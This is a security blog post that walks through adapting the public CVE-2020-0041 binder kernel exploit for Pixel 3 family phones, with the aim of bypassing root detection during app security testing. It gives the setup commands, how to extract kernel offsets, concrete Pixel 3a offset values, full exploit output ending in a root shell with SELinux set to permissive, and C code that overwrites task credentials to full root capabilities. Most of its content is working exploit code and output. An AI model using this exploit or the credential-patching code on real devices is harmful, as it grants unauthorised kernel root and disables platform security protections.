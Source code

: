 +++ 
title = "Bypassing root detection on Pixel 3 devices" 
date = "2022-02-27" 
author = "Joan Calabrés"  
description = "Adapting the CVE-2020-0041 privilege escalation exploit for Pixel 3 family devices in order to bypass root detection." 
+++

There are different root frameworks that can be used on Android in order to obtain root privileges. Usually, during Android application security evaluations, root detection is tested in different ways. Application countermeasures such as root detection are easy to bypass in most of the Android applications and sometimes without the use of reverse engineering techniques; however, as I've been seen during the analysis of banking applications, bypassing root detection on these applications can be hard and time consuming due high obfuscation and countermeasures applied.

A common procedure in the industry is the adaptation of privilege escalation exploits that are not detectable by most of the applications. In this post I will explain how to adapt [bluefrostsecurity](https://labs.bluefrostsecurity.de/blog/2020/04/08/cve-2020-0041-part-2-escalating-to-root/) **CVE-2020-0041** PoC for Pixel 3 to all the Pixel3 family devices. Furthermore, I will provide an improvement to obtain a non-limited root shell. 

## Table of Contents
- [Table of Contents](#table-of-contents)
- [Requirements](#requirements)
- [Adapting the exploit](#adapting-the-exploit)
- [Testing the exploit](#testing-the-exploit)
- [Issues & improvements](#issues-&-improvements)

## Requirements

* Download the **CVE-2020-0041** PoC exploit that we will be using for the modifications:

```bash
git clone https://github.com/bluefrostsecurity/CVE-2020-0041
```

* In order to adapt the exploit for any Pixel 3 device, the specific Pixel 3 vulnerable firmware **(QQ1A.200205.002)** needs to be downloaded from [official website](https://developers.google.com/android/images). A list of the specific devices links can be found below:

    * [Pixel 3 XL](https://dl.google.com/dl/android/aosp/crosshatch-qq1a.200205.002-factory-3e5c17fd.zip)

    * [Pixel 3a XL](https://dl.google.com/dl/android/aosp/bonito-qq1a.200205.002-factory-238bc80e.zip)

    * [Pixel 3a](https://dl.google.com/dl/android/aosp/sargo-qq1a.200205.002-factory-36d5179f.zip)

* Download [abootimg](https://github.com/ggrandou/abootimg) and compile it:

```bash
git clone https://github.com/ggrandou/abootimg
cd abootimg
make
```

* Download and install [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool using python pip:

```bash
sudo apt install python3-pip
sudo pip3 install --upgrade lz4 git+https://github.com/marin-m/vmlinux-to-elf
```

* In addition, we will need the **Android NDK** in our path in order to compile the exploit. As an example, I have this line on my .zshrc file.

```bash
export NDK="/home/calabres/NDK"
```

## Adapting the exploit

1. First of all we need to extract the compressed kernel image from the boot.img. For that, we will use the already downloaded tool **abootimg**.

```bash
./abootimg -x [path_to_boot_img]
```

The produced **zImage**, is an image that contains the compressed Android Kernel.

2. In order to obtain an uncompressed image of the Kernel that contains correct symbols and offsets, use the [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool.

```bash
vmlinux-to-elf [path_to_zImage] kernel.elf
```

3. Use the disassembler of your preference to find the labels related with the exploit offsets found in exploit.c. The labels to find inside the kernel are the following:

```c
SELINUX_ENFORCING_OFFSET 
MEMSTART_ADDR_OFFSET 
SYSCTL_TABLE_ROOT_OFFSET
PROC_DOUINTVEC_OFFSET
INIT_TASK_OFFSET
INIT_CRED_OFFSET
OFFSET_PIPE_FOP
```

4. Change exploit.c offsets for the offsets found in your device kernel image, in my case Pixel 3a offsets are:

```c
#define SELINUX_ENFORCING_OFFSET 0x2ffe000
#define MEMSTART_ADDR_OFFSET 0x23a6390
#define SYSCTL_TABLE_ROOT_OFFSET 0x2dda178
#define PROC_DOUINTVEC_OFFSET 0x19e8758
#define INIT_TASK_OFFSET 0x2da1e00L
#define INIT_CRED_OFFSET 0x2db0238
#define OFFSET_PIPE_FOP 0x2173650
```

## Testing the exploit 

>The exploit can be built by simply running "make" with the Android NDK in the path. It can also be pushed to a phone attached with adb by doing "make all push". Now just run /data/local/tmp/poc from an adb shell to see the exploit running:

{{< code language="bash" title="Exploit execution output" id="1" expand="Show" collapse="Hide" isCollapsed="true" >}}
[+] Mapped 200000
[+] selinux_enforcing before exploit: 1
[+] pipe file: 0xffffffd9c67c7700
[*] file epitem at ffffffda545d7d00
[*] Reallocating content of 'write8_inode' with controlled data.[DONE]
[+] Overwriting 0xffffffd9c67c7720 with 0xffffffda545d7d50...[DONE]
[*] Write done, should have arbitrary read now.
[+] file operations: ffffff97df1af650
[+] kernel base: ffffff97dd280000
[*] Reallocating content of 'write8_selinux' with controlled data.[DONE]
[+] Overwriting 0xffffff97dfe24000 with 0x0...[DONE]
[*] init_cred: ffffff97dfc300a0
[+] memstart_addr: 0xffffffe700000000
[+] First level entry: ceac5003 -> next table at ffffffd9ceac5000
[+] Second level entry: f173c003 -> next table at ffffffd9f173c000
[+] sysctl_table_root = ffffff97dfc5a3f8
[*] Reallocating content of 'write8_sysctl' with controlled data.[DONE]
[+] Overwriting 0xffffffda6da8d868 with 0xffffffda49ced000...[DONE]
[+] Injected sysctl node!
[*] Node write8_inode, pid 7058, kaddr ffffffda0723f900
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_selinux, pid 6848, kaddr ffffffd9c9fa2400
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_sysctl, pid 7110, kaddr ffffffda67e7d180
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[+] Cleaned up sendmsg threads
[*] epitem.next = ffffffd9c67c7720
[*] epitem.prev = ffffffd9c67c77d8
^[[*] Launching privileged shell
root_by_cve-2020-0041:/ # id   
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
root_by_cve-2020-0041:/ # getenforce
Permissive
root_by_cve-2020-0041:/ # 
{{< /code >}}

## Issues & improvements

After the adaptation of the exploit and its execution, you will obtain a root shell; however, this root shell is very limited and you will have some problems executing binaries and creating files. 

Finding on the Internet I found the issue: *you need to patch the security context of the root user.*

During the exploit execution the process executed need to be patched with the correct security context for the root user. The next function is used to patch the credentials of a specific address:


{{< code language="c" title="Patching task credentials" id="2" expand="Show" collapse="Hide" isCollapsed="true" >}}
void patch_task_cred(uint64_t cred_addr, uint32_t init_sid)
{
    uint64_t val;
    struct cred *cred = (void *)cred_addr;
    struct task_security_struct *sec;

    if (cred == NULL)
        return;

    val = 0;
    write32((uint64_t)&cred->uid, val);
    write32((uint64_t)&cred->gid, val);
    write32((uint64_t)&cred->suid, val);
    write32((uint64_t)&cred->sgid, val);
    write32((uint64_t)&cred->euid, val);
    write32((uint64_t)&cred->egid, val);
    write32((uint64_t)&cred->fsuid, val);
    write32((uint64_t)&cred->fsgid, val);
    write32((uint64_t)&cred->securebits, val);

    val = ~(0UL);
    write64((uint64_t)&cred->cap_inheritable, val);
    write64((uint64_t)&cred->cap_permitted, val);
    write64((uint64_t)&cred->cap_effective, val);
    write64((uint64_t)&cred->cap_bset, val);
    //write64((uint64_t)&cred->cap_ambient, val);

    sec = (void *)read64((uint64_t)&cred->security);

    if (sec != NULL) {
        write32((uint64_t)&sec->osid, init_sid);
        write32((uint64_t)&sec->sid, init_sid);
    }
}
{{< /code >}}
